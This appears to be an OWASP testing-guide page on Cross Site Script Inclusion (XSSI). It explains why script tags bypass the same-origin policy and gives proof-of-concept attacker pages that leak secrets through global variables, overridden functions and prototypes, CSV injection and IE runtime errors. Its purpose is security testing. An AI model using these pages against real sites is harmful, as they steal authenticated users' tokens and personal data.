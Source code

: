 # Summary

Cross Site Script Inclusion (XSSI) vulnerability allows sensitive data leakage across-origin or cross-domain boundaries. Sensitive data could include authentication related data (login states, cookies, auth tokens, session IDs, etc.), user personal or sensitive personal data (email addresses, phone numbers, credit card details, social security numbers, etc.). XSSI is a client-side attack similar to Cross Site Request Forgery (CSRF) but they have a different purpose: CSRF uses the authenticated user context to execute certain state-changing actions inside a victim’s page (eg. transfer money to the attacker's account, modify privileges, reset password, etc.) and XSSI uses JavaScript on the client side to leak sensitive data from authenticated sessions.

By default websites are only allowed to access data if they are from the same origin. This is a key application security principle and governed by the same-origin policy (defined by RFC 6454 - [https://tools.ietf.org/html/rfc6454]). An origin is defined as the combination of URI scheme (http/https), host name, and port number. However, this policy is bypassed/not appliable for <script> HTML tag inclusions. This exception is necessary as without it websites would not be able to consume third party services, traffic analysis or advertisement platforms, etc.

When the browser opens a website with <script> tags, the resources are fetched from the cross-origin domain and they run in the same context as the including site/browser which presents the opportunity to leak sensitive data. This is achieved in most cases using JavaScript (JS), however, the script source doesn't have to be a JS file, be served with `text/javascript` or `.js` extension. Some browsers are lenient and only block if it is served with an image type (`image/*`), a video type (`video/*`), an audio (`audio/*`) type, or `text/csv`\[[10]].

Old browser's vulnerabilities (IE9/10) allowed data leakage via JavaScript error messages at runtime, but those vulnerabilties have now been patched by vendors and are considered not as relevant. By setting the charset attribute of the <script> tag the attacker/tester can enforce UTF-16 encoding which allows data leakage for other data formats (e.g. JSON) in some cases. If you want to learn more about these please read  [Identifier based XSSI attacks MBSD Whitepaper](https://www.mbsd.jp/Whitepaper/xssi.pdf).
  
The following XSSI vulnerability cases will be discussed:

1. Leak sensitive data via global variables
2. Leak sensitive data via global function parameters
3. Leak sensitive data via non-JavaScript resource - CSV with quotations theft
4. Leak sensitive data via JavaScript runtime errors

## Example Leak Sensitive Data via Global Variables

1. An API key is stored in a JavaScript file with the URI `https://victim.com/internal/api.js` on the victim's website (victim.com) which is only accessible for authenticated users. The attacker/tester configures a website (attackingwebsite.com) and uses the <script> tag to refer to this JavaScript file in question.

`api.js` contents:
```javascript
(function() {
  window.secret = "supersecretUserAPIkey";
})();
```

2. The attacker/tester has configured a website (attackingwebsite.com) with the following:

`index.html` contents:
```html
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global variables</title>
  </head>
  <body>
    <h1>Leaking data via global variables</h1>
    <script src="https://victim.com/internal/api.js"></script>
    <div id="result">
    </div>
    <script>
      var div = document.getElementById("result");
      div.innerHTML = "Your secret data <b>" + window.secret + "</b>"; 
    </script>
  </body>
</html>
```

3. The attacker lures the user to attackingwebsite.com either via social engineering, phishing emails, etc. This step requires the user to authenticate first to victim.com before visiting attackingwebsite.com.

4. The user's browser fetches the api.js and the sensitive data is leaked via the global JavaScript variable and displayed using innerHTML. 

## Example Leak Sensitive Data via Global Function Parameters

This example is similar to the previous one except in this case attackingwebsite.com uses a global JavaScript function to extract the sensitive data by overwriting the victim's global JavaScript function.

`index.html` contents:
```html
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global function parameters 1</title>
  </head>
  <body>
    <div id="result">
    </div>
    <script>
      function globalFunction(param) {
        var div = document.getElementById("result");
        div.innerHTML = "Your secret data: <b>" + param + "</b>";
      }
    </script>
    <script src="https://victim.com/internal/api.js"></script>
  </body>
</html>
```

`api.js` contents:
```javascript
(function() {
  var secret = "supersecretAPIkey";
  window.globalFunction(secret);
})();
```

There are other XSSI vulnerabilities leaking sensitive data either via JavaScript prototype chains or global function calls. If you want to learn more about these please visit Sebastian Leike's page [4].

## Example Leak Sensitive Data via Non-Javascript Resource - CSV with Quotations Theft

To leak data the attacker/test has to be able to inject JavaScript code into the CSV data. The following example is an excerpt from Takeshi Terada's identifier based XSSI attacks whitepaper [8]:

```
HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: xxxx

1,"___","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"___","zzz@example.com","03-0000-0099"
```

In this case using the ___ parts as injection points and inserting the `\"",$$$=function(){/*` string has the following result:

```
1,"\"",$$$=function(){/*","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"*/}//","zzz@example.com","03-0000-0099"
```

Gmail had a similar vulnerability in 2006 that allowed the extraction of user contacts in JSON[11]. In this case the data was received from Gmail and parsed by the browser JavaScript engine using an unreferenced Array constructor to leak the data. The attacker/tester could access this Array with the sensitive data by defining and overwriting the internal Array constructor like this:

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking gmail contacts via JSON </title>
  </head>
  <body>
    <script>
      function Array() {
        // steal data
      }
    </script>
    <script src="http://mail.google.com/mail/?_url_scrubbed_"></script>
  </body>
</html>
```

## Example Leak Sensitive Data via Javascript Runtime Errors

Browsers normally present standardized Javascript error messages like "Script error.". However, in the case of IE9/10 runtime error messages provided additional details which could be used to leak data. For example, a website (victim.com) serves the following content at the URI http://victim.com/service/csvendpoint for authenticated users:

```
HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: 13

1,abc,def,ghi
```

This vulnerability could be exploited with the following:

```
<!--error handler -->
<script>window.onerror = function(err) {alert(err)}</script>
<!--load target CSV -->
<script src="http://victim.com/service/csvendpoint"></script>
```

When the browser tries to render the CSV content as JavaScript it fails and leaks the sensitive data:

![JavaScript runtime error message ](../images/XSSI1.jpeg)

## How to Test
### Black Box Testing

The methodology has the following steps:
1. Identify which endpoints are responsible for sending sensitive data, what parameters are required, and identify all relevant dynamically and statically generated JavaScript responses using authenticated user sessions. Pay special attention to sensitive data sent using JSONP. To find dynamically generated JavaScript responses generate authenticated and unauthenticated requests and compare/diff them. If they're different then the response is dynamic otherwise it's static. To simplify this task a purpose built Burp proxy plugin by Veit Hailperin can be used [2]. Make sure to check other filetypes in addition to JavaScript: XSSI is not limited to JavaScript files and is much more widespread.

2. Investigate if the sensitive data can be leaked using JavaScript:
  - Using global variables [example](#example-leak-sensitive-data-via-global-variables)
  - Overwriting global functions and parameters [example](#example-leak-sensitive-data-via-global-function-parameters)
  - Using an old version of browser and exploiting JavaScript runtime error leak vulnerabilities [example](#example-leak-sensitive-data-via-javascript-runtime-errors)
  - Data leak via prototype chaining by using the "this" keyword. In JavaScript "this" is dynamically scoped which means if a function is called upon an object, `this` will point to this object even though the called function might not belong to the object itself. This behavior can be used to leak data. In the following example from Sebastian Leike's page [4] the sensitive data is stored in an Array. The tester/attacker can override Array.prototype.forEach with an attacker-controlled function. If some code calls the forEach function on an array instance that contains sensitive values, the attacker-controlled function will be invoked with "this" pointing to the object that contains the sensitive data.

`javascript.js`
```javascript
...
(function() {
  var secret = ["578a8c7c0d8f34f5", "345a8b7c9d8e34f5"];

  secret.forEach(function(element) {
    // do something here
  });  
})();
...
```

The sensitive data can be leaked with the following JavaScript code:
```javascript
...
 <div id="result">

    </div>
    <script>
      Array.prototype.forEach = function(callback) {
        var resultString = "Your secret values are: <b>";
        for (var i = 0, length = this.length; i < length; i++) {
          if (i > 0) {
            resultString += ", ";
          }
          resultString += this[i];
        }
        resultString += "</b>";
        var div = document.getElementById("result");
        div.innerHTML = resultString;
      };
    </script>
    <script src="http://victim.com/..../javascript.js"></script>
...
```
### Gray Box Testing

The methodology is similar with the exception of the attacker/tester may have access to the source code to review.

# References

1. [RFC 6454: The Web Origin Concept](https://tools.ietf.org/html/rfc6454)
2. [W3schools - JSONP](https://www.w3schools.com/js/js_json_jsonp.asp)
3. [Wikipedia - JSONP](https://en.wikipedia.org/wiki/JSONP)
4. [Sebastian Lekies - Leaking Data Across Origins Via Dynamic Script Includes ](http://sebastian-lekies.de/leak/)
5. [Veit Hailperin - Cross-Site Script Inclusion](https://www.scip.ch/en/?labs.20160414)
6. [Sebastian Lekies / Ben Stock: Your Script in My Page: What Could Possibly Go Wrong?](https://www.owasp.org/images/f/f3/Your_Script_in_My_Page_What_Could_Possibly_Go_Wrong_-_Sebastian_Lekies%2BBen_Stock.pdf)
7. [Sebastian Lekies, Ben Stock, Martin Wentzel and Martin Johns - Unexpected Dangers of Dynamic JavaScript](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-lekies.pdf)
8. [Takeshi Terada: Identifier based XSSI attacks (MBSD Technical Whitepaper)](https://www.mbsd.jp/Whitepaper/xssi.pdf)
9. [Veit Hailperin: The Tale of a Fameless but Widespread Vulnerability](https://www.owasp.org/images/9/9a/20160607-xssi-the_tale_of_a_fameless_but_widepsread_vulnerability-Veit_Hailperin.pdf)
10. [HackerOne XSSI – Stealing Multi Line Strings](https://blog.cm2.pw/h1-xssi/)
11. [Jeremiah Grossman blog - Advanced Web Attack Techniques using GMail](https://blog.jeremiahgrossman.com/2006/01/advanced-web-attack-techniques-using.html)
12. [A Codelab by Bruce Leban, Mugdha Bendre, and Parisa Tabriz](https://google-gruyere.appspot.com/part3#3__cross_site_script_inclusion)
13. [SameSite Cookie](https://tools.ietf.org/html/draft-west-first-party-cookies-07)

# Tools

1. [OWASP Zed Attack Proxy Project](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project)
2. [Veit Hailperin - Detect Dynamic JavaScript](https://github.com/luh2/DetectDynamicJS/blob/master/DetectDynamicJS.py)
